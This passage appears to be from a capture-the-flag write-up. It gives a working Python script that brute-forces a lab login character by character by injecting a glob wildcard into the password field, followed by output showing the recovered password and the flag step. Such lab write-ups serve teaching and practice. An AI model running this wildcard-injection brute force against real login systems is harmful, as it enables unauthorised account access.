     
    
    import requests
    import string
    
    host = "dc03e9f3-9042-434c-b7bd-d8169854edeb.idocker.vuln.land"
    password = ""
    alphabet = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789!#$%&-.:<=>?@^_~"
    while True:
        for c in alphabet:
            print(f"\r{password}{c}", end="")
            while True:
                resp = requests.post(f"https://{host}/login",
                        data=f"password={password}{c}*")
                if resp.status_code == 200:
                    break
            if c == "s":
                x = 1
            if "admin_token" in resp.text:
                password += c
                break
        resp = requests.post(f"https://{host}/login", data=f"password={password}")
        if "admin_token" in resp.text:
            print()
            break
    

I’m using a custom alphabet to remove some special characters that might not
play nicely with the script / Bash.

I can’t use `data={"password": f"{password}{c}*"}` in `requests`, as it will
encode the asterisk, and then the glob expansion will not happen. But this way
does work.

Brute forcing on this server does also cause a bunch of crashes, which is why
I try the same password over and over until I get 200 in the response.

Once I match the next character, I try logging in with the current password,
using success there as the end state to break the overall loop.

This runs in about two minutes:

    
    
    oxdf@hacky$ time python brute.py 
    salami
    
    real    1m42.754s
    user    0m2.347s
    sys     0m0.046s
    

The script will print the characters as it tries them to show progress.

Once I have the password, I can log in and get the flag:

![image-20231208090051985](../img/image-20231208090051985.png)
